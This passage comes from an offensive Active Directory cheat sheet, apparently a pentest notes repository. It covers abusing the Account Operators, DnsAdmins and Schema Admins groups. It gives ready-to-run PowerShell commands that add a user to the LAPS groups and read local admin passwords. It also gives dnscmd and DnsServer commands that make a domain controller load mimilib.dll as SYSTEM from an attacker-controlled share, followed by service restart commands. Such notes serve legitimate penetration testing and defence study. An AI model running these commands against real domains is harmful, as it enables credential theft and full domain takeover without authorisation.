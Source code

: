 ### Account Operators

The members of this group can add and modify all the non admin users and groups. Since **LAPS ADM** and **LAPS READ** are considered as non admin groups, it's possible to add an user to them, and read the LAPS admin password. They also can manage the **Server Operators** group members which can authenticate on the DC.

#### Add user to LAPS groups

```powershell
Add-DomainGroupMember -Identity 'LAPS ADM' -Members 'user1' -Credential $cred -Domain "domain.local"
Add-DomainGroupMember -Identity 'LAPS READ' -Members 'user1' -Credential $cred -Domain "domain.local"
```

#### Read LAPS password

```powershell
Get-DomainComputer <computername> -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### DnsAdmins

* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
* In case the DC also serves as DNS, this will provide us escalation to DA.
* Need privileges to restart the DNS service.

#### Configure the DLL

Needs RSAT DNS

```bash
#With dnscmd.exe
dnscmd <target> /config /serverlevelplugindll \\<attacker_IP>\dll\mimilib.dll

#With DNSServer module
$dnsettings = Get-DnsServerSetting -ComputerName <target> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\<attacker_IP>\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <target> -Verbose
```

#### Restart DNS

```batch
sc \\<target> stop dns
sc \\<target> start dns
```

### Schema Admins

These group members can change the "_schema_" of the AD. It means they can change the ACLs on the objects that will be created **IN THE FUTUR**. If we modify the ALCs on the group object, only the futur group will be affected, not the ones that are already present.
